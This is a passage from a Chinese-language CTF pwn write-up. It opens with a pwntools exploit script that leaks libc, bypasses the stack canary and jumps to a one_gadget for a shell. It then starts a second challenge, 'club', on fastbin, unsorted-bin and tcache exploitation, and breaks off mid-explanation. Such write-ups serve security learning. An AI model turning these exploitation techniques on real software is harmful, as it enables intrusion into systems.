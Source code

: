 ```python
p.recvuntil('name: \n')
p.send('a'*0xc0)

p.recvuntil('a'*0xc0)
libc_base = u64(p.recvuntil('l')[:-1].ljust(8, '\x00')) - 0x3da7cb
print "libc_base: %#x" % libc_base

one_gadget = libc_base + 0x4526a

payload = 'a' * 0x28 + p64(canary) + p64(0xdeadbeef) + p64(one_gadget)
payload = payload.ljust(0xc0, '\x00')

p.recvuntil('of introduction: \n')
p.sendline(str(0xc0))

p.recvuntil('introduction: \n')
p.send(payload)

p.interactive()
```

然而这题不止一个解，可以不用泄露 libc，通过构造 rop 调用 fopen 和 fscanf 来读取 flag 也行，不过就麻烦了许多。

## club

### 考察要点

1. 通过写泄露堆地址推测 libc 版本
2. fastbin attack
3. 通过 unsorted bin 泄露 libc
4. tcache 利用

### 解题思路

1. 检查题目保护，发现保护全开

![1](img/club1.png)

2. 首先连续添加多个 member，然后再依次释放第一个和第二个 member，使得第二个 chunk 的 fd 指向了第一个 chunk 的地址。再次将第二个 chunk 分配出来，name 设置为'b'，这只会修改掉堆地址的最后一个字节。通过 edit(1, 'b')输出该 chunk 的 fd。可以发现，地址的第 3 位不为 0，而是 2，这就意味着堆上事先分配了一个 0x200 大小以上的 chunk，联系到 libc2.27 以上会在堆上开辟一个 0x250 大小的空间用于管理 tcache，从而确定文件环境是存在 tcache 的。
